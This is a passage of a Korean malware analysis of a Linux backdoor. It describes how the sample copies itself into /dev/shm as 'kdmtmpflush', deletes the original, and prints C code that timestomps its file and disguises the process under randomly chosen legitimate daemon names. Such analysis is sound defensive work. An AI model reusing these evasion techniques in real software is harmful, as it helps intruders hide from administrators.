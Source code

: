 `/dev/shm` 공유 메모리 공간에 바이너리를 “kdmtmpflush”라는 이름으로 복제하여 실행한다  
복제된 바이너리를 실행 후 원본 바이너리는 공유 메모리에서 삭제한다  

kdmflush는 리눅스 커널에서 디바이스 매퍼 (Device Mapper) 서브시스템에서 사용되는 커널 스레드이다  
정상적인 프로세스의 임시 파일인 것처럼 위장하기 위해 “kdmtmpflush”라는 이름으로 프로세스를 복제한다  

변종에 따라 복제 프로세스의 이름이 다를 수 있다  
<br>

---

### 프로세스 메타데이터 변경

```c
static void setup_time(char *file)
{
        struct timeval tv[2];
 
        tv[0].tv_sec = 1225394236;
        tv[0].tv_usec = 0;
 
        tv[1].tv_sec = 1225394236;
        tv[1].tv_usec = 0;
 
        utimes(file, tv);
}

...

char *self[] = {
        "/sbin/udevd -d",
        "/sbin/mingetty /dev/tty7",
        "/usr/sbin/console-kit-daemon --no-daemon",
        "hald-addon-acpi: listening on acpi kernel interface /proc/acpi/event",
        "dbus-daemon --system",
        "hald-runner",
        "pickup -l -t fifo -u",
        "avahi-daemon: chroot helper",
        "/sbin/auditd -n",
        "/usr/lib/systemd/systemd-journald"
};
...
srand((unsigned)time(NULL));
strcpy(cfg.mask, self[rand()%10]);
setup_time(argv[0]);
set_proc_name(argc, argv, cfg.mask);
```

정상적인 프로세스인 것처럼 위장하기 위해 10개의 문자열 중 하나를 랜덤으로 선택하여 프로세스명을 해당 문자열로 변경한다   

프로세스 생성 시간 및 수정 시간 또한 2008년 10월 30일로 변경하여 기존부터 존재하던 정상 프로세스처럼 보이게 한다  

변종마다 프로세스명이 다양하다  
시간 메타데이터 또한 변종에 따라 다를 수 있다  
<br>

---